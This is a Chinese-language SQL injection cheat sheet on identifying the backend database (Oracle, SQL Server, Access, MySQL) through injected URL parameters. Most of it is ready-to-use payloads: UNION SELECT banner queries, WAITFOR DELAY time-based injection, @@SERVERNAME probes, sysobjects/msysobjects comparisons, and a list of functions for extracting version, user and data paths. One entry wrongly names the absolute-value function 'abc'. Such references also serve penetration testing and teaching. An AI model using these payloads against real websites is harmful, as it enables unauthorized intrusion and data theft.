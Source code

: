 Oracle
通过输入'，根据爆出的错误信息来判断

联合

代码语言：javascript
复制
product.jsp?id=' UNION SELECT banner FROM v$version --
联合查询：

代码语言：javascript
复制
?id=' UNION (SELECT banner FROM v$version) --
SQL Server
方法名

Payload

延时注入

page.asp?id=';WAITFOR DELAY '00:00:10'; --

默认变量

page.asp?id=sql'; SELECT @@SERVERNAME --

触发错误有可能会报出DBMS类型

page.asp?id=0/@@SERVERNAME

Access
1.报错信息

在注入点上加入'，返回错误信息中，如果是Microsoft JET Database Engine错误'80040e14'的话，则说明网站所用的数据库是Access数据库。
2.逻辑差异

利用SQL和ACCESS的系统表的结构，如下

代码语言：javascript
复制
http://wwww.***.com?id=1 and (select count(*) from sysobjects)>0 //sysobjects 是SQL表

http://www.***.com/id=1 and (select count(*) from msysobjects)>0//msysobjects 是access
如果加sysobjects的SQL语句后，网页显示正常， 加sysobject的SQL语句后，网站显示不正常，则说明用的是SQLServer数据库。

如果加sysobjects和加msysobjects的SQL语句后，网页显示都不正常，或者加msysobject后的网页显示正常，则说明是ACCESS数据库。

3.对len()和chr()函数支持

如果目标数据库同时支持len()函数和chr()函数，且不支持length()和char()函数，则很可能是Access数据库。

支持length()和char()函数的很可能是MYSQL数据库

补充常用函数及SQL语句
代码语言：javascript
复制
Access：
asc(字符) SQLServer：unicode(字符) 作用：返回某字符的 ASCII 码
chr(数字) SQLServer：nchar(数字) 作用：与 asc 相反，根据 ASCII 码返回字符
mid(字符串,N,L) SQLServer：substring(字符串,N,L) 作用：返回字符串从 N 个字符起长度为 L 的子字符串，即 N 到 N+L 之间的字符串
abc(数字) SQLServer：abc (数字) 作用：返回数字的绝对值（在猜解汉字的时候会用到）
A between B And C SQLServer：A between B And C 作用：判断 A 是否界于 B 与 C 之间
代码语言：javascript
复制
Mysql:
version()  MySQL 版本
user()  数据库用户名
database() 数据库名
@@datadir 数据库路径
@@version_compile_os  操作系统版本
hex() 把十进制转为十六进制
concat() 连接字符串
ascii() ascii编码